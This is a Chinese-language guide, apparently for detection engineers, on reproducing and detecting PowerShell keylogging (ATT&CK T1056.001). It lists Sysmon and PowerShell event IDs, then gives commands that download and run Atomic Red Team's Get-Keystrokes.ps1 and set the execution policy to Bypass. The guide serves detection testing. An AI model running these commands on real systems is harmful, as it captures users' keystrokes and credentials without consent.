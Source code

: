 ### Sysmon日志
- **事件ID 1**：捕获`powershell.exe`进程创建及命令行参数（如包含`Get-Keystrokes`）。
- **事件ID 11**：记录日志文件（如`key.log`）的创建。
- **事件ID 13**：记录注册表修改（如键盘记录相关键）。
- **事件ID 3**：记录可能的网络连接（若日志文件通过网络传输）。

### PowerShell日志
- **事件ID 4104**：捕获PowerShell脚本块执行，记录`Get-Keystrokes`相关内容。

### 文件系统日志
- 监控新创建的日志文件（如`.log`、`.txt`）及其路径。

## 测试复现

### 环境准备
- **靶机**：Windows 10/11或Windows Server 2019。
- **权限**：管理员权限。
- **工具**：
  - PowerShell（系统自带）。
  - Get-Keystrokes.ps1脚本（https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1056.001/src/Get-Keystrokes.ps1）。
  - Sysmon（用于进程和文件监控）。
  - Wireshark（若涉及网络传输，捕获流量）。
- **网络**：隔离网络环境，允许可能的出站流量。
- **日志**：启用Windows安全日志、Sysmon日志和PowerShell日志。

### 攻击步骤
1. **下载脚本**：
   - 获取`Get-Keystrokes.ps1`：
     ```bash
     Invoke-WebRequest -Uri https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1056.001/src/Get-Keystrokes.ps1 -OutFile $env:TEMP\Get-Keystrokes.ps1
     ```
2. **运行脚本**：
   ```powershell
   Set-Location $env:TEMP
   .\Get-Keystrokes.ps1 -LogPath $env:TEMP\key.log
   ```
   - 脚本将记录击键并保存到`$env:TEMP\key.log`。
3. **验证结果**：
   - 检查`$env:TEMP\key.log`是否生成并包含击键记录。
   - 使用Wireshark捕获网络流量（若数据通过网络传输）。
   - 验证Sysmon和PowerShell日志是否记录脚本执行和文件创建。
4. **清理**：
   ```powershell
   Remove-Item $env:TEMP\key.log -ErrorAction Ignore
   Remove-Item $env:TEMP\Get-Keystrokes.ps1 -ErrorAction Ignore
   ```

### 注意事项
- 测试需在合法授权的隔离环境中进行，避免对生产环境造成影响。
- Windows Server 2019测试可能失败，建议在Windows 10/11上验证。
- 确保PowerShell执行策略允许运行脚本（`Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass`）。

